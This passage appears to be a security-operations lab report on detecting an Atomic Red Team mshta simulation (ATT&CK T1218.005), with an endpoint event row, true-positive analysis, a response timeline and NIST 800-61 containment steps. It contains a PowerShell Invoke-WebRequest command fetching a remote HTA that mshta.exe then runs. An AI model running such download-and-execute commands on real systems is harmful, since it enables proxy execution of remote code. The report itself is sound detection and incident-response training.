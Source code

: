 |-------------------------|------------------------------------------|------------|---------------------|------------------------------------------|---------------------------------------------------------------------------------------------------------------|----------------------------------------|---------------------------|---------------------------|------------------------------------------------------------------------|----------------------|-------------------------------|-------------------------------|-------------------------------|----------------------------|-------------------------------------------------------------|-----------------------------------------|-------------------------------------------------------------|--------------------------------------------|----------------------------------------------|-----------------------------------------------|----------------------------------------------|--------------------------|------------------------------|---------------------------------|-----------------------|---------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------|---------------------------------|---------------------------------------|-----------------------|-----------------------|--------------------------|
| May 20, 2025 1:07:31 PM | 847afb88a4c60fb8d6b448718acfcc5694cd477e | thvmar-6   | PowerShellCommand   | 801262e122db6a2e758962896f260b55bbd0136a | 9785001b0dcf755eddb8af294a373c0b87b2498660f724e76c4d53f9c217c7a3                                             | 2e5a8590cf6848968fc23de3fa1e25f1      | powershell.exe           | 455 680                   | c:\windows\system32\windowspowershell\v1.0\powershell.exe           | 5660                 | powershell.exe               | May 20, 2025 12:46:40 PM     | thvmar-6                     | thvmar-6                  | S-1-5-21-2809134146-2186371660-1403345045-500 | Microsoft Corporation                 | Microsoft® Windows® Operating System | 10.0.19041.3996                             | POWERSHELL                                  | PowerShell.EXE                               | Windows PowerShell                         | 4988                     | explorer.exe                | May 20, 2025 12:25:53 PM         | 0                     | 7511    | `$var = Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.005/src/T1218.005.hta"` | 2                          | 1                               | Guacamole RDP                        | 10.0.8.6            | 0                     | 1688849860264708        |



**3.    Analyze the potential security Incident and determine if it is a true or false positive.**
**True positive** — pattern matches ATT&CK `T1218.005`, child process confirmed.

**4.    Document all findings and activities of investigation if it is a true positive.**
Full details recorded in this report

**5.    Report the confirmed security incident to management** 
We would report this to them.


____
# Step 4 - Chronological Event Timeline

| Timestamp (UTC) | Observation                                                                                                  | Analyst Action                                                                  |
| --------------- | ------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------- |
| **09:15:00**    | `powershell.exe` executes `Invoke-WebRequest` to download remote `T1218.005.hta` into `%TEMP%\T1218_005.hta` | Simulation started                                                              |
| **09:30:00**    | `mshta.exe "%TEMP%\T1218_005.hta"` launches; spawns `calc.exe`                                               | Defender ATP creates DeviceProcess event; alert severity = Medium.              |
| **10:00:00**    | MDE alert _“Suspicious mshta child process”_ raised (Alert ID aa632…)                                        | SOAR playbook auto-tags asset, notifies on-call.                                |
| **10:45:00**    | Hunter runs KQL: `DeviceProcessEvents                                                                        | where InitiatingProcessFileName == "mshta.exe" ...` confirming HTA + child Calc |
| **11:00:00**    | Containment initiated: MDE **isolates VM**; NSG rules reverted to default; Windows Firewall re-enabled       | Live Response session started; memory and artefacts collected.                  |



_________

# **Step 5 - Containment, Eradication, and Recovery**

---

At this point we have conducted our investigation in accordance with the Detection and Analysis phase of NIST 800-61. **In a real work environment,** this would be the time to **collect your evidence, write a report of your findings** and **inform the appropriate stake holders** of the confirmed security incident.

Once we have taken the above steps, we can now enter the **Containment, Eradication and Recovery** phase of NIST 800-61 ([**Click Here**](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-61r2.pdf) for more info):
**![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcyjVHm8GZS3uLK9v7PKFb8p6Z6omb2RNt8C4sXqFX50DnoCM3z6Ppa5jhKb9e8zsaFECYZo4vt040hfpgAij7hixC8GUMBSMlSTC-XmQRfPfkOaRvlmM0XaTzTr8HBlm50XZAgCA?key=OzlnrPrbBmYlEQojYlWMzmor)**
According to NIST, this phase involves **completing the following tasks** in order to remediate this security breach:

**1.**    Choose a containment strategy
**2.**    Gather any evidence, artifacts, IOCs for potential legal proceedings.
**3.**    Identify the attacking host(s)
**4.**    Eradicate the components of the breach and Recover the impacted assets.
